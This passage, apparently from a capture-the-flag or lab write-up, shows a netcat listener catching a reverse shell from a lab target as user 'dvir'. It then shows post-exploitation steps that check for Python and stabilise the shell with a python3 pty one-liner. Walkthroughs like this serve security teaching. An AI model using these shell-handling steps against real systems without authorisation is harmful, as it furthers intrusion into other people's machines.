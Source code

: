 ![image](/assets/img/burp6.png)

And yes, we have received a connection from the remote host, and we have our first step on the machine :

```bash
listening on [any] 8900 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.8] 38870
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

## Post Exploitation

Now we can stabilize it so we can work quietly.

Check if [python](https://www.python.org/) is installed :

```bash
which python; which python2; which python3
```

Yes, we have [python3](https://docs.python-guide.org/starting/install3/linux/) it's perfect :

```bash
/usr/bin/python3
```

With [python](https://www.python.org/), it's very simple to be able to stabilize a [shell](https://en.wikipedia.org/wiki/Shell_(computing)) :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
